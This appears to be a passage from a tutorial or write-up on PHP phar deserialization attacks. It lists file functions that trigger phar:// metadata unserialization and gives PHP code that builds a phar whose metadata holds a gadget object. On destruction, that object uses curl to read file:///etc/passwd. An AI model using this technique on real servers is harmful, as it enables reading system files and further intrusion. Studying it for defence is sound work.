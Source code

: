 > - is_dir('phar://test.phar'); 
> - is_link('phar://test.phar'); 
> - is_writable('phar://test.phar‘); 
> - fileperms('phar://test.phar'); 
> - fileinode('phar://test.phar'); 
> - filesize('phar://test.phar'); 
> - fileowner('phar://test.phar');
> - filegroup('phar://test.phar'); 
> - fileatime('phar://test.phar'); 
> - filemtime('phar://test.phar');
> - filectime('phar://test.phar'); 
> - filetype('phar://test.phar'); 
> - getimagesize('phar://test.phar'); 
> - exif_read_data('phar://test.phar'); 
> - stat('phar://test.phar'); 
> - lstat('phar://test.phar'); 
> - touch('phar://test.phar‘); 
> - md5_file('phar://test.phar');
> - and so on..

First, create phar file using below code.

```php
ini_set('phar.readonly',0);

class Requests{
    public $url;

    function __construct($url){
        $this->url = $url;
    }
    function __destruct(){
        $ch = curl_init();
        curl_setopt($ch, CURLOPT_URL, $this->url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
        $output = curl_exec($ch);
        echo $output;
    }
}

@unlink("phar.phar");
$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->addFromString("test.txt","test");
$phar->setStub("<?php echo 'STUB!'; __HALT_COMPILER(); ?>");
$obj = new Requests('file:///etc/passwd');
$phar->setMetadata($obj);
$phar->stopBuffering();
```

The important thing when creating phar file is that Metadata 

It must contain <u>Object to be unserialized</u>.
